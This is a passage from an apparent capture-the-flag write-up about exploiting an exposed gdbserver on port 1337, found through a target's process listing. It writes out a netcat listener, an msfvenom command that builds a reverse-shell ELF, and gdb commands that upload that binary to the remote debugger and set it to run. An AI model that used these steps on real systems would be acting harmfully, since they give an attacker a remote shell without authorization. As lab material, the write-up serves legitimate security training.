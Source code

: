 ```
* Process 937:
         CMD: /sbin/agetty-o-p -- \u--nocleartty1linux
* Process 950:
         CMD: SCREEN-dmSroot
* Process 955:
         CMD: -/bin/bash
* Process 960:
         CMD: /usr/lib/policykit-1/polkitd--no-debug
* Process 968:
         CMD: /lib/systemd/systemd--user
* Process 969:
         CMD: /usr/lib/policykit-1/polkitd--no-debug
* Process 973:
         CMD: /usr/lib/policykit-1/polkitd--no-debug
* Process 974:
         CMD: /usr/sbin/mysqld
* Process 975:
         CMD: (sd-pam)
* Process 990:
         CMD: /usr/sbin/apache2-kstart
* Process 991:
         CMD: /usr/sbin/apache2-kstart
* Process 993:
         CMD: /usr/sbin/apache2-kstart
* Process 994:
         CMD: bash-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
* Process 995:
         CMD: gdbserver--once0.0.0.0:1337/bin/true
* Process 999:
         CMD: /bin/true
* Process 1000:
         CMD: /usr/sbin/apache2-kstart
```

We can see a bunch of process in the machine.
We can notice the a gbd server is running on the 1337 port.

We can google search about this process. In this [HackTricks Post][HackTricks GdbServer] they explain us how to pentest and exploit this service.


### Gaining User Access

First we are going to set up a reverse shell at 4444:
```bash
nc -lvnp 444
```

Second, we are going to follow the steps posted in the [guide][HackTricks GdbServer]:
```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TUN0_IP LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote $MACHINE_IP:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf
```

[screen man]: https://linux.die.net/man/1/screen
[Bash script dt]: http://google.es
[Bash script list]: http://google.es
[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581
[port1337]: https://www.speedguide.net/port.php?port=1337